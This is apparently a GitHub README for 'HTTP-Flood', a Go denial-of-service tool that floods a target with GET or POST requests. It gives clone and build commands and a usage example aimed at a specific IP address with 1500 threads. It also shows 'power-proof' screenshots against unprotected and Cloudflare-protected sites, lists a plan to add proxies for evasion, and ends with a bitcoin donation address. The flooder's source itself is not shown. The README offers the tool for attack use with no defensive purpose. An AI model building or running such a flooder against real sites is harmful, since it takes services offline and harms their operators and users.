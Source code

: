 # HTTP-Flood
Just simple httpflood

TODO:
Remove shity-code 
Add proxy

## Install
```sh
git clone https://github.com/LSD00/HTTP-Flood
cd HTTP-Flood
go mod init http 
go get github.com/valyala/fasthttp
go build 
```
## Usage 
```sh
./http <target> <GET/POST> <threads>
example: ./http http://51.159.30.249 POST 1500
```

## Power-proof
### Non-Protect
![alt-text](https://i.imgur.com/2WQ4jk6.png)
### Cloudflare-Low 
![alt-text](https://i.imgur.com/8bxScW1.png)
## Donate 
btc: 3JzWqmqH6YwXVVoBWsTuSgJg3qQXNHcgPp
